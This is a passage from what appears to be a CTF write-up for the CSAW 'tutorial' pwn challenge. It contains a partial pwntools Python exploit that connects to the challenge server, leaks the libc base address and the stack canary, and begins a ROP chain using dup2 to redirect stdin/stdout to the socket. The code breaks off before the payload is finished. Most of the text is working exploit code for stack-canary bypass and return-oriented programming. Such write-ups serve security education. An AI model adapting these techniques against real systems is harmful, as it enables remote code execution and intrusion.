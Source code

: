 
Now we can start building the exploit

#### Exploit Summary

1. Grab libc base address from choosing option 1.
2. choose option 2 and grab canary
3. choose option 2, input canary, and give payload


## Exploit

```language-python
from pwn import *

context(arch='amd64', os='linux')
context.log_level =False


binary      = ELF('tutorial')
libc        = ELF('libc-2.19.so') #used to by rop
canary      = 0x0


conn        = remote('pwn.chal.csaw.io', 8002)


def calcLibcAddress():

    conn.recvuntil('>')
    conn.sendline('1'); ## this will

    puts_addr = conn.recvline().split(':')[1]
    #do string manipulation, 0x500 was subtracted from puts in the binary
    puts_addr = int(puts_addr, 16) + 0x500
    #god damn pwn tools is nice.
    libc.address = puts_addr - libc.symbols['puts']

    print ('\nLibc Address: 0x%x\n\n' % libc.address)


    #======LETS FIND THE CANARY========
def getCanary():
    conn.recvuntil(">")
    conn.sendline('2')

    conn.recvuntil('>')
    #send empty line
    conn.sendline()

    #get the crap
    canary = conn.recv(0x144)[0x138:0x138 + 0x8]

    print ("\nCanary: 0x%s \n\n" % canary.encode('hex') )
    return canary



    #========I'M SALIVATING  ========
def honeyGetMeTheRop():
    rop = ROP([binary, libc])
    # dup2 will be used to redirect stdin/out to the socket

    #uses the two binarys to build rop chains
    #rop.raw() is used to build stack frames
```